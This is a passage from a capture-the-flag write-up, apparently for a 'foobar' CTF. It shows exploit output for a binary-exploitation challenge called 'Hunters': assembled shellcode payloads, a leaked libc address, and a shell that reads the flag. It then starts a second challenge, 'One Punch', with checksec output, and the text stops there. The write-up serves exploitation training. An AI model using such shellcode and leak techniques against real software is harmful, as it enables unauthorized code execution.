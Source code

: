 ```console
[*] PAYLOAD:
       0:   4d 89 f7                mov    r15, r14
       3:   48 31 c0                xor    rax, rax
       6:   66 b8 28 2f             mov    ax, 0x2f28
       a:   49 29 c7                sub    r15, rax
       d:   41 55                   push   r13
       f:   c3                      ret
[*] Sending payload:
    00000000  4c 89 f7 41  ff d7 41 55  c3                        │L··A│··AU│·│
    00000009
[*] PAYLOAD:
       0:   4c 89 f7                mov    rdi, r14
       3:   41 ff d7                call   r15
       6:   41 55                   push   r13
       8:   c3                      ret
[*] Printf Libc Address: 0x7f237928a810
[*] Paused (press any to continue)
[*] Sending payload:
    00000000  4c 89 f7 41  ff d7 41 55  c3                        │L··A│··AU│·│
    00000009
[*] Switching to interactive mode
$ ls
Hunters
Hunters.c
bin
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
GLUG{egg_HUnTER_cH@MpIoN}
```

The flag is: `GLUG{egg_HUnTER_cH@MpIoN}`


## **One Punch**

### Description
> Life became boring after I could defeat anyone in a single shot 

We were given a binary file

### Solution

Run checksec on file:
```console
┌──(kali㉿kali)-[~/Desktop/pwn/foobar_ctf/one_punch]
└─$ checksec chall_one
[*] '/home/kali/Desktop/pwn/foobar_ctf/one_punch/chall_one'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
